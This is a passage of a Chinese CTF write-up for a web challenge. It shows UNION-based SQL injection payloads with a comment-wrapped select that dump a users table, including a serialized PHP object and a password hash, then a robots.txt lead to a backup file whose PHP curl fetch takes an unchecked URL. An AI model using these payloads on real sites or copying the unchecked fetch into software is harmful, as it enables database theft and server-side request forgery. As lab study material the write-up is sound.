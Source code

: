 username字段显示no,username,passwd,data字段

data字段是之前没有看到过的，所以现在要查看字段的值

10.爆字段的值

-1 union/*!select */1,group_concat(data),3,4 from users

username:爆出字段值:O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:13;s:4:"blog";s:7:"bai.com";} 

这是一个序列化语句:表示有一个UserInfo类，这个类有参数name,age,blog

没有获得有用的信息，所以查看其他几个字段的内容

11.爆其他字段:

-1 union/*!select */1,group_concat(no,username,passwd),3,4 from users

username爆出字段的值:1admin3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2

发现除了no和username字段其他为密文，进行解密:

3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2

发现解密失败，所以可能不是密文

12.查看网页的robots.txt文件，查看网页还允许我们查看的文件有哪些:

http://f848876c-8f1f-4fec-bdf5-2a6496754020.node4.buuoj.cn:81/robots.txt

获得一个user.php.bak文件，将它下载:

13.分析user.php.bak中的代码:

```php
<?php

//UserInfo类
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";
    //有参申请类
    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {//curl_init()函数用于初始化一个新的会话，可以用于获取网页地址、设置网页头信息等
        $ch = curl_init();
        //curl_setopt — 设置一个cURL传输选项
        //CURLOPT_URL: 这是你想用PHP取回的URL地址。你也可以在用curl_init()函数初始化时设置这个选项
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
    //blog内容的处理
```